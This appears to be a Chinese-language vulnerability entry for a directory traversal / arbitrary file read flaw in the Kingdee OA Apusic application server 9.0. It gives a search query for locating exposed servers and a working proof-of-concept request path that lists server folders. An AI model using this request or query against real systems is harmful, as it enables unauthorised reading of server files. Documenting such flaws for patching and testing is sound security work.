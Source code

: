 # 金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞

## 漏洞描述

金蝶OA Apusic应用服务器(中间件) 存在任意文件读取漏洞，攻击者通过漏洞可以获取目录下的文件信息

## 漏洞影响

<a-checkbox checked>金蝶OA 9.0 Apusic应用服务器(中间件) </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Apusic-公司产品" && title=="欢迎使用Apusic应用服务器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1629466520262-6fed551f-2c99-4966-82df-a2c5550a216d.png)

验证POC

```bash
/admin/protected/selector/server_file/files?folder=/
```

![img](../../../.vuepress/public/img/1629466554121-8f3d039e-9243-42c1-bd3e-65cdbba62569.png)